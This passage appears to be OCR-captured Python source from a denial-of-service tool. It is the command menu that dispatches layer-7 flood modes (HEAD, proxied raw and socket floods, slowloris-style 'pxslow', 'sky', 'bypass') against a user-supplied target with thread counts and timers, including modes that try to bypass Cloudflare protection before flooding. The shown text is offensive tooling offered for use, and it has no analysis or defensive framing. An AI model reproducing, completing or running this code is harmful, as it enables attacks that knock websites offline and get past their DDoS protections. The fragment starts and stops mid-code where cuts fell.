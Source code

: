         LaunchPOST(target, thread, t)
        timer.join()
    elif command == "head" or command == "HEAD":
        target, thread, t = get_info_l7()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        LaunchHEAD(target, thread, t)
        timer.join()
    elif command == "pxraw" or command == "PXRAW":
        if get_proxies():
            target, thread, t = get_info_l7()
            timer = threading.Thread(target=countdown, args=(t,))
            timer.start()
            LaunchPXRAW(target, thread, t)
            timer.join()
    elif command == "soc" or command == "SOC":
        target, thread, t = get_info_l7()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        LaunchSOC(target, thread, t)
        timer.join()
    elif command == "pxsoc" or command == "PXSOC":
        if get_proxies():
            target, thread, t = get_info_l7()
            timer = threading.Thread(target=countdown, args=(t,))
            timer.start()
            LaunchPXSOC(target, thread, t)
            timer.join()
    elif command == "cfpro" or command == "CFPRO":
        target, thread, t = get_info_l7()
        stdout.write(Fore.MAGENTA+" [*] "+Fore.WHITE+"Bypassing CF... (Max 60s)\n")
        if get_cookie(target):
            timer = threading.Thread(target=countdown, args=(t,))
            timer.start()
            LaunchCFPRO(target, thread, t)
            timer.join()
        else:
            stdout.write(Fore.MAGENTA+" [*] "+Fore.WHITE+"Failed to bypass cf\n")
    elif command == "cfsoc" or command == "CFSOC":
        target, thread, t = get_info_l7()
        stdout.write(Fore.MAGENTA+" [*] "+Fore.WHITE+"Bypassing CF... (Max 60s)\n")
        if get_cookie(target):
            timer = threading.Thread(target=countdown, args=(t,))
            timer.start()
            LaunchCFSOC(target, thread, t)
            timer.join()
        else:
            stdout.write(Fore.MAGENTA+" [*] "+Fore.WHITE+"Failed to bypass cf\n")
    elif command == "sky":
        target, thread, t = get_info_l7()
        threading.Thread(target=attackSKY, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "bypass":
        target, thread, t = get_info_l7()
        threading.Thread(target=attackbypass, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))
        timer.start()
        timer.join()
    elif command == "pxslow":
        target, thread, t = get_info_l7()
        threading.Thread(target=attackslow, args=(target, t, thread)).start()
        timer = threading.Thread(target=countdown, args=(t,))